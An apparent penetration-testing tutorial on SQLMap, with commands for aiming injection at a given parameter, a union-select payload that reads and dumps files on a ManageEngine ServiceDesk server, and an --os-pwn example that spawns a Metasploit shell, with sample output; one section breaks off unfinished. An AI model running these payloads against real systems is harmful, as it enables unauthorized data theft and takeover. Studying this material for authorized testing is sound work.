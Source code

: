 # SQLMap SQL Injection Tool
This module will cover the basics on using the SQL injection automation tool, [SQLMap](http://sqlmap.org/). This tool automates the SQL injection process once a vulnerability is found and can also often discover unknown SQL vulnerabilities in web applications.
## Vulnerability Discovery
This section will cover most of the vulnerability discovery methods that I have used during the penetration tests.
### Be Specific
The more specific we are to SQLMap the faster and more efficient it becomes. For instance, if we were to use the browser to test for a vulnerability manually and we see the error output specify that it is from a [MySQL](https://www.mysql.com/) service, we can then specify it to SQLMap to further attempt to exploit the discovered vulnerability as so,

`sqlmap -u http://x.x.x.x:x/?id=1 --dbms=mysql`

### Specifying Exact Parameter to Attack
This is more of a efficiency/optimization of the attack in which SQLMap can avoid looking for SQL injection vulnerabilities in parameters that we already know not to have them. Top specify which paramter to use, we use the `-p (PARAMETER NAME)` argument. For example, The URI, `http://x.x.x.x:x/files.do?fileName=file.txt&color=red&id=123`, has three HTTP GET parameters, `fileName`, `color`, and `id`. If we replaced the `id` parameter in the browser and noticed the DOM output had chnaged, we can test JUST this parameter with the `-p (PARAMETER NAME)` as,

`sqlmap -p id -u http://x.x.x.x:x/files.do?fileName=file.txt&color=red&id=123`

### Specifying Exact Injection Point
SQLMap provides a way to specify exactly where to attempt SQL injection. This can be very useful when building SQL injection exploits upon other, known, exploits for vulnerabilities.To do so, we use an asterisk, `*` in the URL provided to SQLmap as so,

`root@kali:/payloads# sqlmap --level=5 --risk=3 -p woID --dbms=mysql -u 'http://x.x.x.x:8080/WorkOrder.do?woMode=viewWO&woID=WorkOrder.WORKORDERID*=6)union%20select%201,2,3,4,5,6,7,8,load_file(%22c:\\boot.ini%22),10,11,12,13,14,15,16,17,18,19,1%20into%20dumpfile%27C:\\ManageEngine\\ServiceDesk\\applications\\extracted\\AdventNetServiceDesk.eear\\AdventNetServiceDeskWC.ear\\AdventNetServiceDesk.war\\images\\boot.ini.txt%27/' `

This example was taken from the already known exploit, [ManageEngine ServiceDesk Plus 7.6 - woID SQL Injection](https://www.exploit-db.com/exploits/11793/), and builds upon it by allowing SQLMap to inject other commands that do not include file content disclosure.

## Post Exploitation
This section will cover queries commonly performed during the Post Exploitation phase of the pnetration test of a database / web service/app. 
### OS-PWN
SQLMap has the ability to utilize the MetaSploit Framework in attempt to take remote control of the target system with a spawned shell. For this to work, we need to first know a few things,
1. A writeable directory on the target system
2. What (web) programming language does the system support
3. Where our Metasploit Framework is installed on our system

Here is an exmaple of using the `--os-pwn` function in SQLMap:

`root@wt:~# sqlmap -p id -u http://x.x.x.x:x/foo.do?id=45 --msf-path=/pwnt/exploitation/metasploit-framework/ --dbms=mysql --random-agent`

The output from SQLMap would be something similar to,

```
[08:06:06] [INFO] testing MySQL
[08:06:06] [INFO] confirming MySQL
[08:06:06] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL < 5.0.0
[08:06:06] [INFO] fingerprinting the back-end DBMS operating system
[08:06:06] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
> 1
[08:06:09] [INFO] going to use a web backdoor to establish the tunnel
which web application language does the web server support?
[1] ASP (default)
[2] ASPX
[3] JSP
[4] PHP
> 3
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] n
[08:06:13] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('C:/xampp/htdocs/, C:/wamp/www/, C:/Inetpub/wwwroot/') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 2
please provide a comma separate list of absolute directory paths: C:\WINDOWS\Temp
```

Where you can see that I have specified the writeable directory on the target server, the programming language used by the vulnerabile web application, and to use the Metasploit Framework tunnel.

### OS-Shell
SQLMap has the ability to 

### Database Information Gathering
Most of the options for database discovery are pretty straight forward. Some steps to gathering the most of the database information would commonly be,
1. Get the Databse version
2. Get the current user of the web application / database queries
3. Get the database name
4. Get the tables in the database
5. Get the data (records) from these tables.
